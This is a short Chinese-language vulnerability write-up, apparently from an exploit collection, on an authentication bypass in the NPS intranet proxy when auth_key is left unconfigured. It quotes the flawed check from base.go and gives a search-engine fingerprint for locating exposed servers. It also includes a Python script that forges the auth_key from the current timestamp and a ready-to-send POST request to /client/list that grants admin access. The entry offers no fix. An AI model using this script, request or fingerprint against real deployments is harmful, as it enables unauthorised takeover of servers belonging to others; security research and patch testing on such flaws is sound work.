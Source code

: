 # NPS auth_key 未授权访问漏洞

## 漏洞描述

NPS auth_key 存在未授权访问漏洞，当 nps.conf 中的 auth_key 未配置时攻击者通过生成特定的请求包可以获取服务器后台权限

## 漏洞影响

```
NPS
```

## 网络测绘

```
body="serializeArray()" && body="/login/verify"
```

## 漏洞复现

登录页面

![image-20220824141041017](images/202208241410172.png)

在 web/controllers/base.go 文件中

![image-20220824141203374](images/202208241412535.png)

```
md5Key := s.getEscapeString("auth_key")
timestamp := s.GetIntNoErr("timestamp")
configKey := beego.AppConfig.String("auth_key")
timeNowUnix := time.Now().Unix()
if !(md5Key != "" && (math.Abs(float64(timeNowUnix-int64(timestamp))) <= 20) && (crypt.Md5(configKey+strconv.Itoa(timestamp)) == md5Key)) {
	if s.GetSession("auth") != true {
		s.Redirect(beego.AppConfig.String("web_base_url")+"/login/index", 302)
	}
} else {
	s.SetSession("isAdmin", true)
	s.Data["isAdmin"] = true
}
```

这里需要的参数为 配置文件 nps.conf 中的 auth_key 与 timestamp 的md5 形式进行认证，但在默认的配置文件中，auth_key 默认被注释，所以只需要可以获取到的参数 timestamp 就可以登录目标

![image-20220824141300327](images/202208241413464.png)

```
import time
import hashlib
now = time.time()
m = hashlib.md5()
m.update(str(int(now)).encode("utf8"))
auth_key = m.hexdigest()

print("auth_key=%s&timestamp=%s" % (auth_key,int(now)))
```

验证POC

```
POST /client/list
  
search=&order=asc&offset=0&limit=10&auth_key=8c98b1bdedbc569c4e61eeaeb11ce772&timestamp=1659838908
```

![image-20220824141850731](images/202208241418775.png)